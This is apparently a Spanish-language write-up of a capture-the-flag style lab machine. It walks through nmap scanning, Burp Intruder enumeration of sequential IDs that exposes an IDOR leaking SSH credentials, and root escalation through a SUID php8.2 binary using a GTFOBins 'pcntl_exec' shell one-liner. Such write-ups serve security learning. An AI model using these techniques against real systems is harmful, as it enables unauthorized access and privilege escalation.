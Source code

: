 ## **1. Información Inicial**

Desplegamos la maquina con docker

```bash
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

---

## **2. Reconocimiento (Recon)**

### 2.1 Escaneo de Puertos

- [x] **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
```

Allports

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

 **Puertos Abiertos**:
 **[Puerto 22]**:

- [x] **Nmap serveis/versions**:

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

```

 **Puertos Abiertos**:
 **[Puerto 22]**  OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
 **[Puerto 80]** 80/tcp open  http    Apache httpd 2.4.62 ((Debian))

---

## **2 Enumeración** (Web)

![Pasted image 20250211221856.png](<imagenes/Pasted image 20250211221856.png>)
Analizamos con Burpsuite

![Pasted image 20250211221927.png](<imagenes/Pasted image 20250211221927.png>)
 Vemos que para cada petición , genera un ID
 Vamos a tratar de encontrar ID's generados y ver si contienen algo

Mandamos la petición al Intruder
Creamos un ataque tipo "Sniper" de tipo "Numerico"
Configuramos del 1 al 1000

![Pasted image 20250211222050.png](<imagenes/Pasted image 20250211222050.png>)

En los resultados, ya vemos que por tamaño de respuesta, el ID 21 muestra algo distinto: (Tamaño 16679)
![Pasted image 20250211222217.png](<imagenes/Pasted image 20250211222217.png>)

Comprovamos el ID:
![Pasted image 20250211222251.png](<imagenes/Pasted image 20250211222251.png>)
~~![Pasted image 20250211221729.png](<imagenes/Pasted image 20250211221729.png>)~~

Encontramos login y password

---

## **4. Explotación (Exploit)**

Probamos a ingresar por SSH con ese usuario y contraseña, dado que tiene el puerot 22 abierto

![Pasted image 20250211222541.png](<imagenes/Pasted image 20250211222541.png>)

Accedemos a la maquina como Pepe.

---

## **5. Escalada de privilegios

Ahora, una vez dentro como Pepe, vamos probar a escalar nuestros privilegios

Buscamos permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/php8.2
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Encontramos `/usr/bin/php8.2
Buscamos en GTFObins

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Explotamos

```bash
pepe@278b98666e01:/usr/bin$ ./php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```

---

## **6. Lecciones Aprendidas**

-
- IDOR en documentos PDF

---

## **7. Recursos**

- **Referencias**:
- GTFObins  

- **Herramientas Utilizadas**:
  - **Nmap**
  - **Burpsuite**

---
